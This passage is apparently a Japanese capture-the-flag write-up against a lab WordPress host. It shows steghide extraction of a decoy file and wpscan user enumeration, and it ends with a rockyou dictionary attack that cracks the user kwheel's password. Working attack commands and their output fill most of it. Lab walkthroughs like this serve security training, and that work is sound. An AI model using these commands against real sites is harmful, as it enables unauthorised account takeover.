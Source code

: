 今回はjpegに対して、抽出を実行してみるとrabbit_hole.txtが取得できる。
しかし中身はRabbit_Hole（迷宮に迷い込んでいる）とのことでSambda側はハズレ。

```sh
┌──(kali㉿kali)-[~/7DaysHacking/Day7]
└─$ sudo apt install steghide     
~~~

┌──(kali㉿kali)-[~/7DaysHacking/Day7]
└─$ steghide extract -sf Alice-White-Rabbit.jpg 
Enter passphrase: 
wrote extracted data to "rabbit_hole.txt".
```


### WordPressのアプリへの攻撃
npmapの結果から、Wordpressを利用しており、/wp-admin/に管理者画面がある。

WordPressは利用者が多いアプリケーションのため、専用のスキャナがありユーザーを探索することができる。
wpscanというコマンドを実行してユーザーを炙り出すと以下のユーザーがいることがわかる
- kwheel
- bjoel
```sh
┌──(kali㉿kali)-[~/7DaysHacking/Day7]
└─$ wpscan --url http://blog.thm --enumerate u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.24
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________


[i] User(s) Identified:

[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)

[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
```

ユーザーがわかったので、パスワードについては辞書攻撃で突破してみる。
- `kwheel`のパスワードが`cutiepie1`
```sh
──(kali㉿kali)-[~/7DaysHacking/Day7]
└─$ wpscan --url http://blog.thm -U kwheel,bjoel -P /usr/share/wordlists/rockyou.txt --password-attack wp-login -t 4

[!] Valid Combinations Found:
 | Username: kwheel, Password: cutiepie1
```
